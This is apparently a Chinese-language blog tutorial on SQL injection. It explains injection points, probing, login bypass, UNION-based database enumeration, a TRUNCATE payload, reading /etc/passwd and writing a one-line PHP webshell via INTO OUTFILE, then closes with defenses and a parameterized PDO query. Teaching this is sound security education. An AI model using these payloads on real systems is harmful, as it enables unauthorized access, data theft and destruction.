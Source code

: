 ```yaml
---
title:     "了解SQL注入"  # 文章标题
subtitle:    "了解SQL注入"  # 文章标题
description: ""
date:         2018-05-06T10:41:29+08:00  # 自动添加日期信息
author:   "WangZiTao"
image:   ""
tags:        ["SQL注入"]
url:    "/2018-05-06-了解sql注入"
categories:  ["sql"]
showtoc: true   # 是否显示目录
---
```

## 1.简介

SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。一般来说，它是利用现有应用程序，将（恶意的）SQL命令注入到后台数据库引擎执行的能力，它可以通过在Web表单中输入（恶意）SQL语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句。


## 2.SQL注入的位置

SQL注入只有在SQL语句中插入了用户输入的字符串并没有做好相应的处理时才会发生，用户输入的来源可以是URL参数，POST数据，外部用户输入信息等。程序员在编写代码时往往需要在SQL中填入用户输入的参数，譬如根据用户ID查询用户信息，查询链接类似于/get_user_info.php?uid=123，具体到SQL代码可能是下面这样：

  ```sql
  SELECT * FROM User WHERE uid = 123
  ```

或者是根据用户名来查找用户，链接类似于/search_user.php?name=Zhangsan，具体到SQL代码类似于下面：

  ```sql
  SELECT * FROM User WHERE name = 'Zhangsan'
  ```

上面例子中123和Zhangsan就是用户输入的参数，同时也是可能的注入点。常见的SQL注入位置有下面几种（当然程序员可以把用户参数写到任何地方，不仅仅是WHERE条件里，也可以是ORDER BY或GROUP BY子句，甚至是SQL语句本身）：

  ```sql
  SELECT * FROM table WHERE id = XXX
  SELECT * FROM table WHERE name = 'XXX'
  SELECT * FROM table WHERE name = 'XXX' AND pass = 'YYY'
  SELECT * FROM table WHERE name = "XXX"
  SELECT * FROM table WHERE id IN (XXX)
  SELECT * FROM table WHERE name like '%XXX%'
  ```
## 3.SQL注入方法
从上面列出的SQL语句可以看出，常见的查询参数有可能是数字类型，也可能是字符串类型。两种类型的参数有不同的注入检测方法，字符串类型的参数可以使用 ' '' " "" \ \\\ 进行试探，而数字类型时可以用AND 1、AND 0、AND true、AND false、1-false、1-true、2-1、1*100等方法进行试探。下面举例说明： 一般情况下，如果程序对用户输入的参数做了正确的处理，那么输入任何参数页面都不会报错。如下面两句SQL：

  ```sql
  SELECT * FROM User WHERE name = 'Zhangsan''
  SELECT * FROM User WHERE name = 'Zhangsan'''
  ```
这两个SQL第二个是合法的，只要引号成对出现都没问题。如果用户分别输入Zhangsan'和Zhangsan''页面都能正常返回，则表明不存在注入问题，如果第一个输入页面异常，而第二个输入正常则表明该参数很可能是一个可以利用的注入点。 数字类型的参数看下面这个例子，如果用户输入123 AND 1和123 AND 0页面返回正常，并且结果一样，则说明程序对参数作了处理，而如果输入123 AND 1返回正常，输入123 AND 0返回空页面，则说明存在注入的可能。

  ```sql
  SELECT * FROM User WHERE uid = 123 AND 1
  SELECT * FROM User WHERE uid = 123 AND 0
  ```
##　4.注入能做什么
如果SQL注入只是简单的让页面出错或者返回空页面的话，那么SQL注入也就不会这么吸引人了。SQL注入的强大之处在于可以在服务器上做几乎任何事，听起来似乎是危言耸听，但事实确实如此，要不然SQL注入怎么会和DOS攻击一起成为最流行的网络攻击方法呢。下面我们就来看下通过一个简单的URL参数，可以做多么不可思议的事。

### 4.1 绕开验证
在用户登陆时，往往要根据用户输入的用户名和密码到数据库中进行查询比较，如果用户名和密码匹配则认为登陆成功。相应的SQL语句如下：

  ```sql
  SELECT * FROM Customer WHERE name = 'XX' AND pass = 'YY'
  ```

如果没有对用户输入的参数进行检查，则当输入用户名为admin，密码为' OR '' = ' 时，执行下面的SQL语句：

  ```sql
  SELECT * FROM Customer WHERE name = 'admin' AND pass = '' OR '' = ''
  ```

这个SQL语句中的'' = ''将这个WHERE条件变成了恒等于TRUE，所以会返回所有记录。如果程序通过判断返回的记录数是否大于0来判断验证是否通过的话，这样我们就绕过了程序的验证。

### 4.2 暴库
根据上面的例子可以看到原本是想查询用户名为admin的用户记录，SQL注入后返回的却是数据库中的所有记录。通过这种方式连接其他的表，利用一点点的手段，就几乎可以获取所有数据库、所有表、所有字段的信息，并可以根据这些信息进一步查询数据库中的任意数据。这就是所谓的暴库。譬如还是上面的SQL例子，通过下面的SQL可以获取MySQL版本：

  ```sql
  SELECT * FROM User WHERE name = 'Zhangsan' AND MID(VERSION(),1,1) = '5'
  ```

通过下面的SQL可以爆出所有表：

  ```sql
  SELECT * FROM User WHERE name = 'Zhangsan' UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_TYPE = 'BASE TABLE'-- -'

  ```

这种方法称为Union法。要让这个SQL能够正确执行，User表的字段必须和后面UNION SELECT的字段个数一致，如果字段个数不一致SQL执行会报错。所以要让这种方法生效首先得确定User表字段个数，一般通过ORDER BY试探法，如下所示，通过递增ORDER BY的数值直到页面出错来确定字段个数。

```sql
  SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 1 -- -'  -- 正常
  SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 2 -- -'  -- 正常
  SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 3 -- -'  -- 正常
  SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 4 -- -'  -- 正常
  SELECT * FROM User WHERE name = 'Zhangsan' ORDER BY 5 -- -'  -- 页面出错，可推测User表字段数为4
  ```
确定好User表的字段个数后，后面的UNION SELECT语句也需要做相应的调整，可以用数字1来填充，如下：

  ```sql
  SELECT * FROM User WHERE name = 'Zhangsan' UNION SELECT TABLE_SCHEMA, TABLE_NAME, 1, 1 FROM information_schema.TABLES WHERE TABLE_TYPE = 'BASE TABLE'-- -'
  ```
### 4.3 增删改查，任意数据库操作
一旦知道了所有的数据库信息，则可以修改注入语句任意操作数据库。如下的例子将Product表清空：

  ```sql
  SELECT * FROM User WHERE uid = 123; TRUNCATE TABLE Product
  ```

### 4.4 读写文件
MySQL提供了两个方法可以从本地读取和写入文件，如下：

  ```sql
  SELECT LOAD_FILE('/etc/passwd');
  SELECT '<? system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php';
  ```
上面两个例子展现了SQL注入的强大威力，如果MySQL用户拥有读写文件的权限，那么SQL注入将对站点带来巨大的威胁。第一个例子可以爆出linux服务器上的账号密码文件，第二个例子是向网站根目录写一个webshell，通过这个webshell用户就可以执行linux的系统命令了。譬如：http://www.example.com/shell.php?c=ls，通过webshell攻击者可以进一步做更多的事情了，最后直到控制整个服务器。

## 5.防范SQL注入

针对SQL注入的特点，总结以下几点基本的防范原则：

1. **永远不要相信用户输入，对用户输入进行校验**
2. **永远不要自己拼接SQL**
3. **永远不要用管理员权限的数据库连接**
4. **永远不要明文保存机密信息**
5. **尽量不要显示程序的异常信息，保存到表或日志文件中**
6. **使用WAF（绕过WAF又是另一个话题了）**

从编程的角度来看可以做如下的事情：

1. **用户输入验证：类型转换、正则表达式、特殊符号过滤（引号，分号，注释符号等）**
2. **使用参数化存储过程**
3. **使用参数化SQL语句**
4. **采用ORM框架**

其中将拼接的SQL语句改为使用参数化的SQL语句是最常用的防范方法，另外，参数化的SQL不仅比拼接的更安全，而且性能要更高。 SQL语句的执行过程分几个步骤：语法检查、分析、执行、返回结果。当一条SQL通过语法检查后，会在共享池里寻找是否有跟其相同的语句，如果有则用已有的执行计划执行语句，如果没有找到，则生成执行计划，然后才执行语句。 自己拼接的SQL语句会随着变量的不同而不同，如下面的两句SQL，执行每个SQL的时候都会生成一次执行计划，而这些执行计划其实都是一样的。

  ```sql  
  SELECT * FROM Customer WHERE uid = 1
  SELECT * FROM Customer WHERE uid = 2
  ```
当这种SQL语句被大量调用时，会导致共享池中的SQL语句增多，而重用性极低，导致共享池内命中率下降。维护共享池内部结构消耗了大量的CPU和内存资源，而并没有充分利用执行计划的缓存优势，这样会带来性能问题。采用参数绑定的方式，可以解决这个问题：

  ```
  $uid = 1;
  $pdo = new PDO(...);
  $sql = "SELECT * FROM Customer WHERE uid = :ID";
  $stmt = $pdo->prepare($sql);
  $stmt->bindValue(":ID", $uid, PDO::PARAM_INT);
  $result = $stmt->execute();
  ```
## 6.参考
[sql_injection](https://websec.ca/kb/sql_injection)
